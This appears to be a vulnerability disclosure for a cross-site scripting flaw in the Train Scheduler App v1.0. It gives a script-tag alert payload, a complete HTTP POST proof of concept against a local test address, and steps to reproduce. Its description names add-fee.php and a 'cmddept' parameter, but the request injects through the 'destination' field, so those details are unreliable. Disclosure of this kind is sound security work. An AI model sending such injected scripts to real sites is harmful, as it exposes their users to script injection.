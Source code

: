 ## Vulnerability Description

[Train Scheduler App v1.0](https://www.sourcecodester.com/php/15720/train-scheduler-app-using-php-oop-and-mysql-database-free-download.html) was discovered to contain a cross-site scripting (XSS) vulnerability via the add-fee.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/). This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the cmddept parameter.

1. BUG_Author: Tr0e
  
2. vendors: [sourcecodester.com](https://www.sourcecodester.com/php/15720/train-scheduler-app-using-php-oop-and-mysql-database-free-download.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /train_scheduler_app/?id=&code=aaa&name=bbb&destination=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&duration=60&eta=30
  

# Vulnerability Verification

[+] Payload:

```java
<script>alert(1)</script>
```

POC：

```js
POST http://192.168.0.111:91/train_scheduler_app/ HTTP/1.1
Host: 192.168.0.111:91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/train_scheduler_app/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=rbcvgagjbbad1bbrbb62nukgmc
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

id=&code=aaa&name=bbb&destination=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&duration=60&eta=30
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the Payload provided above.

The vulnerability is located at the "Save Schedule" function, you shuold inserts Payload when you add new file，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194553409-31b5904f-9540-4678-8220-a7d9c44a85c8.png)
![image](https://user-images.githubusercontent.com/42080954/194553461-12a737ed-092a-48e1-8dbf-62268e424e15.png)
![image](https://user-images.githubusercontent.com/42080954/194553614-d3262afd-ec7d-4e46-833f-aa3db8eb81ed.png)


